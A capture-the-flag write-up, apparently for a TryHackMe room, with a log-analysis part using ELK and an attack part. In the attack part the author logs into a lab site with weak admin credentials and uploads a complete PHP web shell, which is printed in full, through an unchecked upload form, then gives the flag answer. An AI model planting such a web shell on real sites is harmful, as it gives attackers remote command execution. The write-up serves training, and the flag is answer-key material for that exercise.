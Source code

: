 ## Operation BLUE
In this part we learn to use ELK, to analyse logs and investigate a particular attack.
+ Firstly we open Elastic then set the collection to `frostypines-resorts`.
+ After that we set the time frame from 11:30, October 3rd 2024 to 12:00, October 3rd 2024.

### Where was the web shell uploaded to?
Firstly we add `message` and `clientip` columns as those are the info that is of interest to us. Then we add the following filter: `message: "shell.php"` to filter out the logs that include instances of the web shell being uploaded somewhere. Here we can see the path: `/media/images/rooms/shell.php`
### What IP address accessed the web shell?
Firstly we add `message` and `clientip` columns as those are the info that is of interest to us. Then we add the following filter: `message: "shell.php"` to filter out the logs that include instances of the web shell being uploaded somewhere. We get two ip addresses. One does not run any commands thus it is not malicious while the other is running commands thus making it malicious. The ip address which runs these commands is `10.11.83.34`.

## Operation RED
+ Firstly we type in `echo “IP frostypines.thm” >> /etc/hosts` in the terminal so that we can acces the website.
+ Now inspecting the site and going to the login page, I tried using the examples of "weak credentials" which were given and the combination of `admin@frostypines.thm` and `admin` gave me acces to the admin account.
+ Now after inspecting a little more we can see that only the `Add Room` section allows us to upload files to the web page and maybe we can upload our script here.
+ Now we save the code given in the AoC room as `exploit.php` using `nano`.
  ```
  <html>
  <body>
  <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
  <input type="text" name="command" autofocus id="command" size="50">
  <input type="submit" value="Execute">
  </form>
  <pre>
  <?php
      if(isset($_GET['command'])) 
      {
          system($_GET['command'] . ' 2>&1'); 
      }
  ?>
  </pre>
  </body>
  </html>
  ```
+ Now we add `exploit.php` after clicking `Add Room`.
+ Now right clicking on the image of the last room added and opening it in the new tab we can see that our exploit is working.
+ We type in `ls` to view the files and we can see that there is a file named `flag.txt`. We now do `cat flag.txt` to view the contents of the file.

## What is the contents of the flag.txt?
After typing in `cat flag.txt` we get the answer which is `THM{Gl1tch_Was_H3r3}`.

## What I Learned
+ Became familiar with `ELK`.
+ Learned that exploiting web pages is easy when they dont check the type of the file we are uploading thus making them vulnerable to `RCE`.
